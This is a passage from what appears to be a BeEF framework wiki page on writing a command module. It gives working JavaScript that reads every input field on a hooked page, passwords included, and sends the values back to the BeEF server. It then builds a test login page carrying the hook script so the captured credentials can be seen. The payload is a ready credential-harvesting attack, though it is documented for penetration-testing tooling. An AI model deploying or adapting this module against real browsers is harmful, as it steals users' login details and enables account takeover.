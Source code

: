 ```js
beef.execute(function() {

	data = '';
	for (x of document.querySelectorAll("input")) { 
	    data += x.name + ":" + x.value + "|";
	}

	beef.net.send("<%= @command_url %>", <%= @command_id %>, "results="+data);

});

```

Make sure to save all files you have editted.

## Testing the module

Now all that is done, fire up beef with `./beef`

Open up the beef control panel and get a browser hooked.

You can hook a browser locally by simple firing up Chrome and opening `http://localhost:3000/demos/basic.html`.

However, for testing this module we will use a custom web page with a login field.

**login.html**
```html

<script src="http://localhost:3000/hook.js" type="text/javascript"></script>
<form action="login.html" method="post">

  <div class="container">
    <label for="uname"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="uname" required>

    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="psw" required>

    <button type="submit">Login</button>
    <label>
      <input type="checkbox" checked="checked" name="remember"> Remember me
    </label>
  </div>

</form>

```

This HTML page contains a login form, and is hooked to the beef browser. Now fill out the username and password, then execute the new module to see the results returned.


<img src="Images/test-module.png" height="140">

***
[[Javascript API|Javascript API]] | [[Creating An Extension|Creating An Extension]]

